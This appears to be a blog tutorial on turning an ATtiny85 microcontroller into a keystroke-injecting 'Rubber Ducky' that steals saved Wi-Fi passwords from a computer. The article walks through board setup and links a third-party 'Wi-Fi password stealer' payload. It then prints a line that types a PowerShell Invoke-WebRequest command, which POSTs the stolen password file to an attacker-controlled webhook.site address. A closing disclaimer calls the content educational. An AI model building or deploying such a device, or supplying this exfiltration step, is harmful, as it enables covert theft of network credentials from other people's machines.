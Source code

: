 ```yaml
---
title: "DIY Rubber Ducky with ATtiny85"
date: "05-14-2022"
author: "Reda BELHAJ"
summary: "Using ATtiny85 to create a DIY Rubber Ducky"
tags: ["Diy", "Attiny85"]
image: "/images/Rubber/bg.png"
---
```


In this article, I’ll walk through how you can create a DIY Rubber Ducky and try to steal Wifi credentials and send them to a webhook site.

## Requirements
* **ATtiny85** : The ATtiny85 is a microcontroller in a similar vein to the Arduino, but with much less IO pins, smaller memory and a smaller form factor.
* Download **Arduino IDE**.

## Configuration
First we need to add an **Additional Boards Manager** to the Arduino IDE. Open Arduino IDE > Goto file > preferences and then add or paste [the package digistump index file](http://digistump.com/package_digistump_index.json):

* [Link](http://digistump.com/package_digistump_index.json)

![preferences](/images/Rubber/pre.JPG)

Secondly, we need to goto tools > boards manager and install **Digistump AVR Boards**

![boards](/images/Rubber/boards.JPG)

And now we need to install **Digistump Arduino Drivers** (just the *Digistump.Drivers.zip*) through the link below:

* [Link](https://github.com/digistump/DigistumpArduino/releases)

## Payloads 
So before using one of **MTK911** payloads please make sure to read the *DISCLAIMER*:

>All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things.

And now we are all setup. we just need a payload and for this example we are going to use **Wi-Fi password stealer** from **MTK911** Github Repo: 

* [Link](https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino)

You can also test out [MTK911](https://github.com/MTK911/Attiny85)'s other payloads.

![code](/images/Rubber/code.JPG)

And after paste the payload into your IDE. Open [Webhook Sites](https://webhook.site) and make sure to copy your unique URL and :

![webhook](/images/Rubber/webhook.JPG)

Then paste the Webhook address into the code as mentioned:

```
DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS");
DigiKeyboard.delay(1000);
```

Then Click upload on Arduino IDE. and it will copy the file to the ATtiny85 after you plug it in. And you are ready to test it out.

## Disclaimer
All the content reported in this article is for educational purposes only and we are not responsible for any use that may be made of it.